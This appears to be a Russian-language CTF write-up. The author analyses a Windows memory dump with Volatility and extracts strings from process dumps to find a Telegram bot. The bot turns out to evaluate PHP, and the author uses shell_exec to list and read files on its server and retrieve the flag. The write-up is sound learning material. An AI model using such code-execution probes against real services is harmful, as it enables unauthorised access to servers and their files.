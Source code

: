 # El Ephant's Tool writeup
Нам дан [архив](https://drive.google.com/file/d/1IBVHlHpqFqcIWWVffuEHVsWKwJqoaunA/view?usp=sharing). Внутри -  **.vmem**-файл. Запихнем его в **volatility**:

```bash
$ vol.py -f el_ephant.vmem imageinfo 
Volatility Foundation Volatility Framework 2.6.1
INFO     : volatility.debug    : Determining profile based on KDBG search...
          Suggested Profile(s) : Win7SP1x64, Win7SP0x64, Win2008R2SP0x64, Win2008R2SP1x64_24000, Win2008R2SP1x64_23418, Win2008R2SP1x64, Win7SP1x64_24000, Win7SP1x64_23418
                     AS Layer1 : WindowsAMD64PagedMemory (Kernel AS)
                     AS Layer2 : FileAddressSpace (/media/sultanowskii/Новый том/el_ephant.vmem)
                      PAE type : No PAE
                           DTB : 0x187000L
                          KDBG : 0xf80002bf4120L
          Number of Processors : 1
     Image Type (Service Pack) : 1
                KPCR for CPU 0 : 0xfffff80002bf6000L
             KUSER_SHARED_DATA : 0xfffff78000000000L
           Image date and time : 2021-10-18 19:00:29 UTC+0000
     Image local date and time : 2021-10-18 22:00:29 +0300
```

Это виндовый дамп, что сильно упрощает нам жизнь. Давайте изучим дамп на предмет интересных процессов:

```bash
$ vol.py -f el_ephant.vmem --profile=Win7SP1x64 pstree
Volatility Foundation Volatility Framework 2.6.1
Name                                                  Pid   PPid   Thds   Hnds Time
-------------------------------------------------- ------ ------ ------ ------ ----
 0xfffffa8008bd53c0:csrss.exe                         308    300      9    601 2021-10-18 18:38:07 UTC+0000
 0xfffffa8006cffb00:wininit.exe                       356    300      3     74 2021-10-18 18:38:07 UTC+0000
. 0xfffffa8008c4ab00:services.exe                     440    356     11    208 2021-10-18 18:38:08 UTC+0000
.. 0xfffffa8008d5db00:svchost.exe                     640    440      9    278 2021-10-18 18:38:10 UTC+0000
.. 0xfffffa8008d2fb00:svchost.exe                     576    440     12    355 2021-10-18 18:38:09 UTC+0000
.. 0xfffffa8008c76060:spoolsv.exe                    1132    440     16    271 2021-10-18 18:38:15 UTC+0000
.. 0xfffffa8006ee8b00:sppsvc.exe                     1932    440      4    144 2021-10-18 18:40:22 UTC+0000
.. 0xfffffa8009042130:taskhost.exe                   3888    440      5     94 2021-10-18 18:58:25 UTC+0000
.. 0xfffffa8006e6ab00:svchost.exe                    2464    440     13    365 2021-10-18 18:40:22 UTC+0000
.. 0xfffffa80081e4b00:svchost.exe                     816    440     21    453 2021-10-18 18:38:11 UTC+0000
... 0xfffffa8008c12060:dwm.exe                       1076    816      3     87 2021-10-18 18:38:15 UTC+0000
.. 0xfffffa8008309b00:SearchIndexer.                 1320    440     14    725 2021-10-18 18:38:27 UTC+0000
... 0xfffffa8006fc3060:SearchFilterHo                 964   1320      5     82 2021-10-18 19:00:16 UTC+0000
... 0xfffffa8008e3f2d0:SearchProtocol                3412   1320      5    217 2021-10-18 19:00:00 UTC+0000
.. 0xfffffa8008d91b00:svchost.exe                     688    440     29    575 2021-10-18 18:38:10 UTC+0000
... 0xfffffa8007914890:audiodg.exe                   3916    688      7    133 2021-10-18 18:56:31 UTC+0000
.. 0xfffffa8008556b00:wmpnetwk.exe                   2120    440     12    263 2021-10-18 18:38:38 UTC+0000
.. 0xfffffa80086785c0:svchost.exe                     844    440    176    886 2021-10-18 18:38:11 UTC+0000
.. 0xfffffa8008d5a060:svchost.exe                    1360    440     10    146 2021-10-18 18:38:17 UTC+0000
.. 0xfffffa8008c78060:svchost.exe                    1240    440     27    361 2021-10-18 18:38:16 UTC+0000
.. 0xfffffa8006e6e930:mscorsvw.exe                   1888    440      6     77 2021-10-18 18:40:22 UTC+0000
.. 0xfffffa8006d695f0:svchost.exe                    1872    440      6     94 2021-10-18 18:38:22 UTC+0000
.. 0xfffffa8008f41470:svchost.exe                     872    440     22    511 2021-10-18 18:38:14 UTC+0000
.. 0xfffffa8008e709b0:svchost.exe                     876    440     50   1003 2021-10-18 18:38:11 UTC+0000
.. 0xfffffa8008392060:svchost.exe                    1832    440     26    345 2021-10-18 18:38:32 UTC+0000
.. 0xfffffa8008cb4060:taskhost.exe                   1148    440      9    301 2021-10-18 18:38:15 UTC+0000
. 0xfffffa8008c5d8e0:lsass.exe                        448    356      6    612 2021-10-18 18:38:08 UTC+0000
. 0xfffffa8008c608e0:lsm.exe                          456    356     11    144 2021-10-18 18:38:08 UTC+0000
 0xfffffa8006cf8710:System                              4      0     79    537 2021-10-18 18:38:03 UTC+0000
. 0xfffffa8007f33b00:smss.exe                         228      4      2     29 2021-10-18 18:38:03 UTC+0000
 0xfffffa8008c35060:explorer.exe                     1092   1068     28    805 2021-10-18 18:38:15 UTC+0000
. 0xfffffa80079b56c0:iexplore.exe                     272   1092     13    550 2021-10-18 18:49:16 UTC+0000
.. 0xfffffa80083f8b00:iexplore.exe                   2976    272     99   1301 2021-10-18 18:55:14 UTC+0000
. 0xfffffa8006fdc350:notepad.exe                      280   1092      1     62 2021-10-18 18:56:11 UTC+0000
. 0xfffffa8006e11060:wmpnscfg.exe                    3148   1092      1      0 2021-10-18 19:00:28 UTC+0000
 0xfffffa8008c04b00:winlogon.exe                      408    348      3    113 2021-10-18 18:38:08 UTC+0000
 0xfffffa8008377b00:csrss.exe                         368    348      9    307 2021-10-18 18:38:07 UTC+0000
```

**notepad.exe** (pid=280) и **iexplore.exe** (pid=272) выглядят как что-то интересное

Давайте сдампим эти процессы:

```bash
$ vol.py -f /media/sultanowskii/Новый\ том/el_ephant.vmem --profile=Win7SP1x64 procdump -p 280 -D .
Volatility Foundation Volatility Framework 2.6.1
Process(V)         ImageBase          Name                 Result
------------------ ------------------ -------------------- ------
0xfffffa8006fdc350 0x00000000ff120000 notepad.exe          Error: ImageBaseAddress at 0xff120000 is unavailable (possibly due to paging)

$ vol.py -f /media/sultanowskii/Новый\ том/el_ephant.vmem --profile=Win7SP1x64 procdump -p 272 -D .
Volatility Foundation Volatility Framework 2.6.1
Process(V)         ImageBase          Name                 Result
------------------ ------------------ -------------------- ------
0xfffffa80079b56c0 0x000000013f2b0000 iexplore.exe         Error: ImageBaseAddress at 0x13f2b0000 is unavailable (possibly due to paging)
```

Не повезло :c

Может, [memdump](https://github.com/volatilityfoundation/volatility/wiki/Command-Reference#memdump)?

```bash
$ vol.py -f /media/sultanowskii/Новый\ том/el_ephant.vmem --profile=Win7SP1x64 memdump -p 280 -D .
Volatility Foundation Volatility Framework 2.6.1
************************************************************************
Writing notepad.exe [   280] to 280.dmp

$ vol.py -f /media/sultanowskii/Новый\ том/el_ephant.vmem --profile=Win7SP1x64 memdump -p 272 -D .
Volatility Foundation Volatility Framework 2.6.1
************************************************************************
Writing iexplore.exe [   272] to 272.dmp
```

А этот сработал! Теперь у нас есть два дампа. Что мы можем в них найти? Давайте обратимся к описанию таска - есть намеки на телеграм. Попробуем найти телеграм-хэндлы:

```bash
$ strings 280.dmp | grep -oE "@[a-zA-Z0-9 _]{3,}"
@ABCDEFGHIJKLMNOPQRSTUVWXYZ
@ABCDEFGHIJKLMNOPQRSTUVWXYZ
@0tL
@PtL
@0rL
@PrL
@PyL
@pyL
@ tL
@PhJ
@ rL
@phJ
@FLFFF
@rArBrCrDrErFrGrHrIrJq
@pApBpCpDpEpFpGpHpIpJpKpLpMpNpOpPpQpRpSpTpUpVpWpXpYpZp
@1A1B1C1D1F1E1H1G1I1J1K1L1M1N1O1
@1P1Q1R1S1T1U
@1A1B1C1D1E1F1G1H1I1J1K1L1
@OFOLOFOROXO
@PTN
@PZN
@FLFFF
@H9CP
@H9CPs
@H9CP
@H9CPsK
@H9CP
@H9CP
@A_A
...
```

Многовато мусора. Добавим "bot" в конце регулярки (делаем это потому, что [BotFather](https://t.me/BotFather) позволяет создавать лишь тех ботов, у которых стоит `Bot` на конце хэндла):

```bash
$ strings 280.dmp | grep -oE "@[a-zA-Z0-9 _]{3,}[bB][oO][tT]"
@ControllerBot
@ControllerBot is a great bot
@YTranslateBot
@iLyricsBot
@Elephant431TheCLIBot
@YTranslateBot
@GroupHelpBot
@FunctionsRobot
@Cryptowhalebot
```

Погуглив всех ботов, приходим к выводу, что @Elephant431TheCLIBot - единственный непопулярный бот.

Теперь у нас есть [@Elephant431TheCLIBot](https://t.me/Elephant431TheCLIBot). Давайте поиграем и посмотрим, что он делает:

```bash
$ hello
Syntax error
hello
$ 2 + 2
4
```

Это интерактивный режим. Наиболее популярные языки с такой фичей - **python**, **php**, **js**. Давайте разбираться дальше:

```bash
$ 'q' * 8
Syntax error
0
$ '1' == '1'
1
$ print("hi")
Syntax error
$ print('hi')
hi1
$ print(hi)
Syntax error
hi1
```

Ага! Функция `print()` печатает текст даже без скобочек! Отличительная особенность php на фоне других популярных языков программирования. Давайте убедимся наверняка:

```bash
$ phpversion()
7.4.3
```

И это действительно php[^1]. 

```php
$ shell_exec('ls')
bot.py
flag.txt
requirements.txt
$ shell_exec('cat flag.txt')
li2CTF{El_Ephant's_p37_15_1nv1nc1bl3_70_rm_-rf!!!}
```

Флаг: `li2CTF{El_Ephant's_p37_15_1nv1nc1bl3_70_rm_-rf!!!}`


[^1]: Название таска и бота также могут навести на мысли о **php**:
<img src="https://quaded.com/data/php-logo.png"  width="400" />
